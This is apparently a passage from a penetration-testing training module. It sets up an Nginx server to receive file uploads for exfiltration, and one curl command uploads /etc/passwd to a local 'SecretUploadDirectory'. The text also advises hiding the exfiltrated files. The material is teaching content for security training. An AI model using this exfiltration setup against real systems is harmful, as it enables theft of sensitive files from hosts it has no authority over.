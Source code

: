 #### Start Nginx

  Start Nginx

```shell-session
gdxqpardo@htb[/htb]$ sudo systemctl restart nginx.service
```

If we get any error messages, check `/var/log/nginx/error.log`. If using Pwnbox, we will see port 80 is already in use.

#### Verifying Errors

  Verifying Errors

```shell-session
gdxqpardo@htb[/htb]$ tail -2 `/var/log/nginx/error.log`

2020/11/17 16:11:56 [emerg] 5679#5679: bind() to 0.0.0.0:`80` failed (98: A`ddress already in use`)
2020/11/17 16:11:56 [emerg] 5679#5679: still could not bind()
```
  
Verifying Errors

```shell-session
gdxqpardo@htb[/htb]$ ss -lnpt | grep `80
```

Verifying Errors

```shell-session
gdxqpardo@htb[/htb]$ ps -ef | grep `2811`
```

#### Remove NginxDefault Configuration

  Remove NginxDefault Configuration

```shell-session
gdxqpardo@htb[/htb]$ sudo rm /etc/nginx/sites-enabled/default
```
#### Upload File Using cURL

  Upload File Using cURL

```shell-session
gdxqpardo@htb[/htb]$ curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

  
Upload File Using cURL

```shell-session
gdxqpardo@htb[/htb]$ tail -1 /var/www/uploads/SecretUploadDirectory/users.txt
```

Once we have this working, a good test is to ensure the directory listing is not enabled by navigating to `http://localhost/SecretUploadDirectory`. By default, with `Apache`, if we hit a directory without an index file (index.html), it will list all the files. This is bad for our use case of exfilling files because most files are sensitive by nature, and we want to do our best to hide them. Thanks to `Nginx` being minimal, features like that are not enabled by default.
